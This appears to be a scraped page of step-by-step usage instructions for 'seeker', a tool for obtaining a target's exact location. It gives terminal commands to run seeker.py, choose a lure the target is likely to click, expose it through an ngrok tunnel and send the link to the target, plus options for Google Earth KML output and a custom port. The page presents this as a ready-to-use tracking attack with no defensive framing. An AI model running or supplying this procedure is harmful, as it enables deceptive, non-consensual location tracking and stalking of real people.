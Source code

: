 --- ---

<h2>Localisation (Exact)</h2>

```
# Step 1 : In first terminal
$ python3 seeker.py

# Step 2 : Select the options (Most likely for your target to click)

# Step 3 : In second terminal start a tunnel service such as ngrok
$ ./ngrok http 8080

# Step 4 : Sent ngrok link to target

###########
# Options #
###########

# Ouput KML File for Google Earth
$ python3 seeker.py -k <filename>

# Use Custom Port
$ python3 seeker.py -p 1337
$ ./ngrok http 1337
```

---

<h2>More Information</h2>

More information ---> https://github.com/thewhiteh4t/seeker

<iframe src="https://github.com/thewhiteh4t/seeker
" width="100%" height="1300"></iframe>
